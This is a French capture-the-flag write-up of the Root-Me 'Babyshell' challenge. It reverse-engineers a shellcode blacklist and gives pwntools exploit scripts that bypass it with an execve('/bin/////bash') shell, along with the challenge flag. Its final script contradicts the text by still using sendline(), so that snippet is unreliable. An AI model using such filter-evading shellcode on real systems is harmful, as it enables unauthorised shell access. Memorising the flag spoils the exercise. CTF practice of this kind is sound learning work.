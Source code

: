 # Babyshell
<br>
<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033811198585614416/unknown.png">
</p>

<br>
Ce challenge est le premier de la suite de challenge dans la catégorie pwn du CTF Root-Me. Il s'agit d'un challenge relativement simple à première vue: 
écrire un shellcode qui permet d'obtenir un shell. Cependant, on va le voir il y a un petit piège ou deux.
<br><br>

Tout d'abord, une fois le fichier téléchargé le premier réflexe est de le mettre dans Binary Ninja, et de regarder ce qu'il fait exactement. 
Le programme est relativement petit et n'a que deux fonctions importantes. 
L'une des deux est la fonction ``main``.<br><br>

## main()
<br>
<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033812795654930524/unknown.png">
</p>
<br>

La fonction est simple: <br>
1) ``mmap()`` et utilisé sur une région et la accessible en écriture, lecture et exécution. La fonction ``mmap()`` a un peu le même effet que la commande ``chmod`` sous linux, à la différence près que cette fois-ci c'est une partie de la pile, et non un fichier dont on change les permissions d'accès.
L'utilisation de cette fonction tombe donc sous le sens: le but est d'exécuter un shellcode, il faut donc pouvoir le mettre quelque part, et ensuite l'exécuter!<br>
2) On nous demande notre shellcode, puis celui-ci est passé dans la fonction ``check_shellcode()``. On reviendra bien vite à cette fonction. Cependant, si 
la ``check_shellcode()`` renvoie une autre valeur que 0, la condition n'est pas remplie et par conséquent notre shellcode ne sera pas exécuté.<br>
3) Le programme exécute le shellcode et supprime les permissions ajouté par ``mmap()``.
<br><br>

## check_shellcode()
<br>
<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033816015643103405/unknown.png">
</p>
<br>
Cette fonction n'est pas très complexe non plus, en quelques mots ce qu'elle fait c'est qu'elle cherche soit pour une chaine de caractère soit un caractère précis.
Si c'est trouvé la fonction va renvoyer une valeur différente de 0, et du coup nous empêcher d'exécuter notre shellcode.<br>
Mais quelles (chaines de) caractères sont bloqués exactement?<br>
En regardant ``BLACKLISTED_STRINGS`` on peut trouver les chaines bloquées
<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033818189156585534/unknown.png">
</p>
<br>
On sait donc maintenant que ``/bin/bash``, ``/bin/sh``, ``/bin//sh`` et ``flag.txt`` sont des chaines interdites. En regardant ``BLACKLISTED_CHARS`` on peut trouver les caractères bloqués.
<br>
<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033818900451831878/unknown.png">
</p>
Et maintenant on sait que les caractères 0x20 (un espace) et 0x0a (un retour à la ligne) sont aussi interdits!
<br>
## Création d'un exploit
<br>
La première idée qui m'est venue en tête est une idée un peu plus compliquée que besoin (et au final pas forcément faisable). Et si j'appelais simplement la fonction ``fgets()`` ? Je pourrais directement écrire dans la zone exécutable et ne pas avoir à passer par la fonction ``check_shellcode()``! <br>
Je me mets donc à créer l'exploit, et la je lance! Plus qu'à attendre le shell... ou pas! Bizarrement, mon exploit est bloqué? Mmmh bizarre, j'y reviendrais plus tard mais pour le moment j'ai abandonné cette idée. Une solution bien plus simple me vient en tête. Je peux simplement utiliser ``execve()`` (j'aurais aussi pû utiliser ``system()``) et appeler ``/bin/////bash``!<br>
Cette fonction a pour but d'exécuter un programme en donnant son chemin d'accès, du coup ça exécuterait ``/bin/////bash`` et me donnerait un shell.<br>
Je me mets donc au boulot et obtiens cet exploit:<br>

```py
from pwn import *
context.arch = "amd64"

io = process('./babyshell')

shellcode = asm(shellcraft.execve("/bin/////bash"))
io.sendline(shellcode)

io.interactive()

```
*J'utilise ``shellcraft`` qui vient de pwntools pour me simplifier la vie, mais on peut aussi très bien écrire à la main le shellcode. Si vous voulez plus d'info sur ``shellcraft`` vous pouvez trouver ça [ici](https://docs.pwntools.com/en/stable/shellcraft.html)*
<br><br>
Je le lance donc en local et... toujours pas accepté! À ce moment je commence à vraiment me poser des questions et débugger mon payload. Après 5 à 10 minutes, je réalise mon erreur et sens un terrible sentiment d'epic fail. La fonction ``sendline()`` ajoute automatiquement un retour à la ligne à ce que j'envoie. Ca vous rappelle pas quelque chose le retour à la ligne? Et ouais! C'est un des caratères qui est interdit!<br>
Du coup, je modifie ``io.sendline(shellcode)`` par ``io.send(shellcode)``, je relance en local et hop! J'ai un shell. Plus qu'à modifier et tester en remote.<br>

## Exploit final
<br>

```py
from pwn import *
context.arch = "amd64"

io = remote('ctf10k.root-me.org', 5004)

shellcode = asm(shellcraft.execve("/bin/////bash"))
io.sendline(shellcode)

io.interactive()
```

<br>
<p align="center">
<img src="https://cdn.discordapp.com/attachments/693164567307616310/1033822138844598322/unknown.png">
</p>
<br>
<br>
Flag: ``RM{__tw34k1ng_sh3llc0dez_4_dumm13s!}``
<br>
## Petit mot de fin
<br>
Ce challenge n'était pas extrêmement compliqué, mais c'était chouette de le résoudre. J'ai bien aimé le CTF en général et j'espère que tous ceux qui y ont joué ont eu autant de fun que moi!
